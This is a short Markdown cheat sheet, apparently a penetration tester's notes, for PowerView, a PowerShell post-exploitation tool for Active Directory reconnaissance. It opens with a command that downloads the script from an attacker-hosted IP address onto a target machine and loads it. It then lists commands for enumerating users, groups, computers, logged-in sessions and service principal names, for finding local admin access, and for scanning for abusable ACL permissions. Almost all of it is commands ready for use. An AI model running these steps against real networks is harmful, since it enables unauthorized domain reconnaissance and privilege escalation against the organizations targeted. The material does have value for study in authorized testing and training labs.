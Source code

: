 
Powerful post-exploitation PowerShell tool designed for Active Directory (AD) enumeration and situational awareness.

## Download PowerView to target
```
iwr http://10.10.16.46:8000/PowerView.ps1 -OutFile C:\windows\temp\PowerView.ps1
```

```
. .\PowerView.ps1
```

# Surveying
## Domain Info
```
Get-NetDomain  
```

## Users  
```
Get-NetUser  
Get-NetUser "fred"  
Get-NetUser | select cn  
Get-NetUser | select cn,pwdlastset,lastlogon  
```
  
## Groups  
```
Get-NetGroup | select cn  
Get-NetGroup "Sales Department" | select member  
```
  
## Computers  
```
Get-NetComputer   
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion, distinguishedname  
```
  
## Use Current User to Determine if they have Local Admin privileges on any pc in the domain  
```
Find-LocalAdminAccess  
```
  
## Find Logged in Users  
```
Get-NetSession -ComputerName files04 -Verbose  
```
  
## Get SPNs  
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname  
```
  
## Enumerate ACEs  
```
Get-ObjectAcl -Identity stephanie  
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights  
```
  
## Convert SID to Name  
```
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-519  
```
  
## Find Domain Shares  
```
Find-DomainShare  
```


## Resolve GUIDS of all Objects 
```
Get-ObjectAcl –ResolveGUIDs
```

################

## Scan for interesting abusable permissions

```
Invoke-ACLScanner -ResolveGUIDs
```